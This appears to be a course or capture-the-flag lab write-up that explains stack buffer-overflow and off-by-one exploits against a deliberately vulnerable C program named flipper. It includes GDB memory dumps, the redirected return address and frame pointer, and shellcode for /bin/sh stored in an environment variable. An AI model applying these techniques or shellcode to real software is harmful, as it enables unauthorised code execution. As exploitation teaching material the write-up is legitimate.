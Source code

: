 ## Exploit GDB Output
#### (GDB output demonstrating the before/after of the exploit working)
When we ran GDB after inputting the malicious exploit string, we got the following output:
```
(gdb) x/16x c.buffer
0xffffd5ec:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5fc:     0x4bb779e1      0x41414141      0x41414141      0x41414141
0xffffd60c:     0xffffd610      0xdb31c031      0xd231c931      0xb05b32eb
0xffffd61c:     0xcdc93105      0xebc68980      0x3101b006      0x8980cddb
```
The address of rip (0xffffd60c) is successfully overwritten with 0xffffd610 which points to the shellcode right next to it. 

# Question 4: Vega Write-up
## Main Idea
#### (A description of the vulnerability)
The code is vulnerable because ```flip``` function uses ```<=``` instead of ```<``` which allows us to write n + 1 byte instead of n, overflowing the byte immediately after the ```buf```. Sfp of ```flip``` is right above ```buf``` so we can change the least significant byte of sfp such that it points back to the ```buf``` which we can fill up with the address of shellcode. After sfp reroutes to ```buf```, it will pick up the address of shellcode and executes it.
```
    char buf[64];
    ...
    ...
    for (i = 0; i < n && i <= 64; ++i)
        buf[i] = input[i] ^ 0x20;
```
This is a off-by-one vulnerability.

## Magic Numbers
#### (How any relevant “magic numbers” were determined, usually with GDB)
We first determined the address of our shellcode (0xffffdfaa + 4 = 0xffffdfae) which is located around the top of the stack as an environment variable. We add 4 to it because first four bytes of that environment variable is 'EGG='.
```
(gdb) print ((char **) environ)[4]
$1 = 0xffffdfaa "EGG=j2X̀\211É\301jGX̀1\300Ph//shh/binT[PS\211\341\061Ұ\v̀"
(gdb) x/2wx 0xffffdfaa
0xffffdfaa:     0x3d474745      0xcd58326a
```
We then determine the address of ```buf``` (0xffffd570) and the address of rip of ```invoke``` (0xffffd5b4). Finding the addresses was done through invoking GDB and setting a breakpoint at line 17.
```
(gdb) x/32x buf
0xffffd570:     0x00000000      0x00000001      0x00000000      0xffffd71b
0xffffd580:     0x00000002      0x00000000      0x00000000      0x00000000
0xffffd590:     0x00000000      0xffffdfe5      0xf7ffc540      0xf7ffc000
0xffffd5a0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd5b0:     0xffffd5bc      0x0804927a      0xffffd751      0xffffd5c8
0xffffd5c0:     0x0804929e      0xffffd751      0xffffd650      0x0804946f
0xffffd5d0:     0x00000002      0xffffd644      0xffffd650      0x0804a000
0xffffd5e0:     0x00000000      0x00000000      0x0804944d      0x0804bfe8

(gdb) i f
Stack level 0, frame at 0xffffd5b8:
 eip = 0x8049251 in invoke (flipper.c:17); saved eip = 0x804927a
 called by frame at 0xffffd5c4
```